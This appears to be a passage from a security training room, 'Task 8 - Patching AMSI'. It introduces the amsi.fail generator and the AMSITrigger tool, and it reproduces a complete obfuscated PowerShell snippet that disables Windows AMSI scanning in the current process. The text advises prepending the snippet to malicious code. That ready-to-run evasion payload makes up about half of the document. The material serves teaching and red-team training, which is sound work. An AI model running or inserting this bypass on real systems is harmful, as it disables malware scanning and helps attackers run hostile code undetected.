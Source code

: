 ## Task 8 - Patching AMSI

While it is preferred to use the previous methods shown in this room, attackers can use other automated tools to break AMSI signatures or compile a bypass.

The first automation tool we will look at is [amsi.fail](http://amsi.fail/)

[amsi.fail](http://amsi.fail/) will compile and generate a PowerShell bypass from a collection of known bypasses. From amsi.fail, "AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before obfuscating. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures."

Below is an example of an obfuscated PowerShell snippet from amsi.fail

```
$d=$null;$qcgcjblv=[$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).Runtime.InteropServices.Marshal]::AllocHGlobal((9076+7561-7561));$pkgzwpahfwntq="+('lwbj'+'cymh').NORmaliZe([CHar]([byTe]0x46)+[char](111)+[ChAR]([ByTE]0x72)+[chaR](109*73/73)+[ChAR]([ByTE]0x44)) -replace [char]([bytE]0x5c)+[Char](112*106/106)+[char]([bYte]0x7b)+[chAR]([BYtE]0x4d)+[CHAR](110+8-8)+[CHAr]([BytE]0x7d)";[Threading.Thread]::Sleep(1595);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$(('àmsí'+'Sess'+'íón').norMALiZE([CHaR](70*49/49)+[chAr](87+24)+[ChaR]([bytE]0x72)+[chAr](109)+[chAR](68+43-43)) -replace [CHAr](92)+[chAr]([byTe]0x70)+[CHAr]([bYTE]0x7b)+[cHAr](77*71/71)+[CHar]([bYtE]0x6e)+[char](125+49-49))", "NonPublic,Static").SetValue($d, $null);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$([chAR]([byTe]0x61)+[Char](109+52-52)+[cHar](46+69)+[CHar]([byTe]0x69)+[CHAR]([BYTe]0x43)+[Char]([ByTe]0x6f)+[chAR](110)+[chaR](116*47/47)+[cHar](101)+[CHAR]([bYte]0x78)+[CHaR]([ByTE]0x74))", "NonPublic,Static").SetValue($null, [IntPtr]$qcgcjblv);
```

You can attach this bypass at the beginning of your malicious code as with previous bypasses or run it in the same session before executing malicious code.

[AMSITrigger](https://github.com/RythmStick/AMSITrigger) allows attackers to automatically identify strings that are flagging signatures to modify and break them. This method of bypassing AMSI is more consistent than others because you are making the file itself clean.
